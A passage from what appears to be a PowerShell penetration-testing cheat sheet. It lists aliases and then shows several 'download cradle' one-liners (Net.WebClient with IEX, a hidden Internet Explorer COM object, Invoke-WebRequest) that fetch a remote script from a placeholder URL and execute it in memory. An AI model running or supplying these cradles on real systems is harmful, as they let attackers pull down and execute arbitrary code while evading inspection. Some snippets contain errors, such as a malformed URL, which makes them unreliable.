```powershell
Alias           trcm -> Trace-Command
Alias           type -> Get-Content
Alias           wget -> Invoke-WebRequest
Alias           where -> Where-Object
Alias           wjb -> Wait-Job
Alias           write -> Write-Output
```

* Listing all commands of an imported module:

```powershell
$ Get-Command -Module ModuleOne
```

* Using a download cradle to obtain a script from a remote source and execute it:

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://example.com/nonmalicious.jpeg')
```

<pre class="language-powershell"><code class="lang-powershell">$WebC = New-Object Net.WebClient;
<strong>$str = $WebC.DownloadString('https://example.com/nonmalicious.jpeg');
</strong><strong>IEX($str)
</strong></code></pre>

* Using a COM Object to Internet Explorer

```powershell
$ie = New-Object -ComObject InternetExplorer.Application;
$ie.visible = $false;
$ie.navigation = ('https://example.com/nonmalicious.jpeg');
sleep 5;
$response = $ie.Document.Body.innerHTML;
$ie.quit();
iex($response)
```

* For PowerShell version 3 onwards the `Invoke-WebRequest`  (with alias of `iwr`) command can be used instead.

```powershell
IEX(IWR -useb 'https:/example.com/nonmalicious.jpeg/')
```

An error can occur when using `Invoke-WebRequest` without the argument `-UseBasicParsing`. This is due to the IE Engine not being enable as Microsoft have deprecated Internet Explorer.

<figure><img src="../.gitbook/assets/The response content cannot be parsed.webp" alt=""><figcaption></figcaption></figure>

So for this reason the `-UseBasicParsing` argument can be added to the command to resolve the issue.

* Using a COM Object to MSXML2:
